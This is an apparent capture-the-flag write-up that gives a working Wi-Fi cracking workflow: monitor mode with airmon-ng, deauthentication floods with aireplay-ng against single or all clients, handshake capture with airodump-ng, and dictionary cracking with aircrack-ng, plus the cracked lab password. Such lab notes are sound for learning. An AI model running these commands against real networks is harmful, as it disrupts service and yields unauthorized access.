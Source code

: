 # Solving the ctf 
  1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
  2. found the password: greeneggsandham

---

## Wifi Hacking Workflow(Deauthentication Attack Method)
  ```sh
  1. use airmon-ng to enter monitor mode
  2. [opcional] force the clients from the target network to de-authenticate to speed up the process of gathering the 4 way handshake
  3. use airdump-ng to capture packets passing through the interface(monitor mode interface) into pcap files
  4. use aircrack-ng to crack the password from the pcap file
  ```

---

## 1. Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## 2. Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  ### deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>

  ### deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>

---

## 3. Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

  - example use: `sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon`
    - `-c <channel>`: Specifies the channel of the target network.
    - -`b <BSSID>`: Specifies the BSSID (MAC address) of the target access point.
    - `-w capture`: Writes captured packets to a file named capture-01.cap (increments the file number for subsequent captures).

---

## 4. Aircrack-ng(cracks the hash of the passphrase from the 4-way-handshake pcap file)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`
